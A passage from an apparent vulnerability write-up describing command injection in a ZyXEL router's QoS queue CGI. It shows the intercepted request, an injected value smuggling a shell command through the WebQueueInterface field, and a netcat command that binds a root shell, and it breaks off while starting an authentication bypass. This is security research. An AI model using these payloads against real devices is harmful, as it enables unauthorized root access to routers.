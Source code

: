 We see that we’re using the `sprintf` command here, to read into `command` and then we run system, with this command. If we can control the `qname` here we’ve won. We can read the `/var/webqos.txt`, and see that whenever we send a request to `qos_queue.cgi`. Another line gets added to the webqos.txt file. Specifically the text `WAN`. Playing around with the ZyXEL portal interface, we found out that we could go to Network Setting > QoS > Queue Setup, intercepting this request we see:

``` 
POST /qos_queue_add.cgi HTTP/1.1 
Host: 192.168.1.1 
Content-Length: 159 
Cache-Control: no-cache 
Pragma: no-cache 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36 
Content-Type: application/x-www-form-urlencoded 
Accept: text/html, */* 
X-Requested-With: XMLHttpRequest 
If-Modified-Since: 0 
Expires: 0 
Origin: http://192.168.1.1 
Referer: http://192.168.1.1/indexMain.cgi 
Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9 
Cookie: session=192.168.1.44 
Connection: close

Submit=Apply&WebQueueActiveCfg=Active&QueueObjectIndex=1&
QueueNameTxt=WAN_Default_Queue&WebQueueInterface=WAN&
WebQueuePriority=3&WebQueueWeight=1&WebQueueRate=
```    

We can see that the thing that matches our log file is sent in this request `WAN`. We try changing this to `AAAAAAAA`, reading the log file reveals… Success! Let’s send another request with: `WebQueueInterface=WAN;echo+'helloworld'+>>+/tmp/helloworld;` We see that we have succesfully created a new file, we now have RCE.

### Getting a reverse shell

Now we need to replace this with a proper reverse shell. This is really simple, and is just a simple `nc` command. We could use `nc -l -p 1337 -e 'sh'`, and then connect to the server on port 1337, and boom we’re in. Now we just need to privilege escalate to root, and bypass authentication! Or…

```
$ whoami
root
```    

Well, seems like we’re already root. Well.. Damn.. Let’s look at getting an authentication bypass now.

### RevShell v2.0, added authentication bypass!

Looking for which server is responsible for authentication we found that there was a service running called `mini_httpd`, which was responsible for directing traffic to CGI binaries. In this binary there was code for checking whether a user was authenticated.
